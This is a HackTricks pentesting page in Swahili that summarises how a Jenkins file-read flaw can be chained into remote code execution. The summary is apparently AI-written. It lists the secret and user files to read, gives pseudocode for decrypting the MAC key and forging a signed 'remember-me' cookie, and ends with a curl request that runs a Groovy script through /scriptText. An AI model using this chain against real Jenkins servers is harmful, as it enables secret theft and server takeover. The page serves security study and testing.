# Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Katika chapisho hili la blog, inawezekana kupata njia nzuri ya kubadilisha udhaifu wa Local File Inclusion katika Jenkins kuwa RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Hii ni muhtasari ulioandikwa na AI wa sehemu ya chapisho ambapo ufundi wa kuki isiyo ya kawaida unatumika vibaya kupata RCE kwa kutumia kusoma faili za ndani hadi nitakapokuwa na muda wa kuunda muhtasari wangu mwenyewe:

### Masharti ya Shambulio

* **Mahitaji ya Kipengele:** "Remember me" lazima iwe imewezeshwa (mipangilio ya default).
* **Viwango vya Ufikiaji:** Mshambuliaji anahitaji ruhusa za Jumla/Soma.
* **Ufikiaji wa Siri:** Uwezo wa kusoma maudhui ya binary na maandiko kutoka kwa faili muhimu.

### Mchakato wa Kina wa Kutekeleza

#### Hatua ya 1: Kukusanya Data

**Kurejesha Taarifa za Mtumiaji**

* Fikia usanidi wa mtumiaji na siri kutoka `$JENKINS_HOME/users/*.xml` kwa kila mtumiaji ili kukusanya:
* **Jina la Mtumiaji**
* **Mbegu ya Mtumiaji**
* **Wakati**
* **Hash ya Nywila**

**Uondoaji wa Funguo za Siri**

* Ondoa funguo za kificho zinazotumika kwa ajili ya kusaini kuki:
* **Funguo ya Siri:** `$JENKINS_HOME/secret.key`
* **Funguo Kuu:** `$JENKINS_HOME/secrets/master.key`
* **Faili ya Funguo ya MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Hatua ya 2: Uundaji wa Kuki

**Maandalizi ya Token**

*   **Hesabu Wakati wa Kuisha wa Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Ongeza saa moja kwa wakati wa sasa
```
{% endcode %}
*   **Unganisha Data kwa Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Ufunguo wa MAC Ufunguliwe**

*   **Fungua Faili ya Funguo ya MAC:**

```javascript
key = toAes128Key(masterKey)  // Badilisha funguo kuu kuwa muundo wa funguo za AES128
decrypted = AES.decrypt(macFile, key)  // Fungua faili ya .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Hesabu ya Sahihi**

*   **Hesabu HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Hesabu HMAC kwa kutumia token na funguo ya MAC
tokenSignature = bytesToHexString(mac)  // Badilisha MAC kuwa mfuatano wa hexadecimal
```

**Ufungaji wa Kuki**

*   **Unda Kuki ya Mwisho:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Fanya base64 encode ya data ya kuki
```
{% endcode %}

#### Hatua ya 3: Utekelezaji wa Msimbo

**Uthibitishaji wa Kikao**

* **Pata CSRF na Token za Kikao:**
* Fanya ombi kwa `/crumbIssuer/api/json` ili kupata `Jenkins-Crumb`.
* Pata `JSESSIONID` kutoka kwa jibu, ambayo itatumika pamoja na kuki ya remember-me.

**Ombi la Utekelezaji wa Amri**

*   **Tuma Ombi la POST na Skripti ya Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Skripti ya Groovy inaweza kutumika kutekeleza amri za kiwango cha mfumo au shughuli nyingine ndani ya mazingira ya Jenkins.

Mfano wa amri ya curl iliyotolewa inaonyesha jinsi ya kufanya ombi kwa Jenkins na vichwa na kuki zinazohitajika ili kutekeleza msimbo usio wa kawaida kwa usalama.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

